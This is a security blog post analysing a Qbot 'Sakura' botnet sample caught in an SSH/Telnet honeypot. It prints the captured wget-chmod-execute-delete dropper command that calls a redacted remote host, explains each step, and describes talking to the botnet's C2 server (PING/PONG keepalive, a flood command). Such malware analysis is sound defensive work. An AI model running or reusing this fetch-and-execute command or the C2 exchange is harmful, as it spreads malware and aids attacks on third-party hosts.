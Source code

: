 ```yaml
---
description: This blog delves into the world of IoT botnets, exploring how they operate, the vulnerabilities they exploit, and the impact they have on both individuals and organizations.
                It discusses the methods used by attackers to compromise IoT devices, the challenges in securing these devices, and the steps that can be taken to mitigate risks.
                The blog also highlights recent case studies and research findings in the field of IoT security.
---
```

# Qbot and Mirai *Rabbit-Hole*

## Part 1: Initial Compromise and Qbot Activity

### **Qbot Detection and Analysis**

Today, during my routine checkup on my SSH and Telnet honeypot, I noticed that a binary had been downloaded with the following payload:

```bash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://{REDACTED}/x-8.6-.Sakura; chmod +x x-8.6-.Sakura; ./x-8.6-.Sakura; rm -rf x-8.6-.Sakura
```

Here's a breakdown of how this payload works:

1. The script tries to navigate to multiple directories (/tmp, /var/run, /mnt, /root) in sequence. This is often a tactic to ensure that it ends up in a directory where it can safely download and execute the malicious binary.

2. It uses `wget` to download a file (x-8.6-.Sakura) from a remote server.

3. It then uses `chmod +x` in order to make the binary executable.

4. Finally it runs the binary and removes the binary.


The IP hosting the binary resolves to a data centre in the UK called Dolphinhost.

I checked if the binary was stripped of function names (which would make my life harder when reversing it), and it wasn't! This is common among those inexperienced with malware development. I then checked the strings present in the binary and found traits of an open-source Qbot botnet called "Sakura." This helped immensely, as the code is open-source, and I didn't have to reverse it at all.

I then used tria(.)ge to perform some dynamic analysis.

After checking the network activity for the binary, I found that it connects to the C2 server on port 12345. I used PuTTY to connect and see what the C2 server was sending to clients. Upon connecting, I received a simple message saying "PING". I checked the source for the C2 server and could see that it expects the response "PONG" (who would've guessed?). This is used by the C2 to check if the bots are alive and responsive.

About two minutes after exchanging "PONG" with the server, I received the following message:

```
! VSE {REDACTED} 22 30 32 9999 10
```
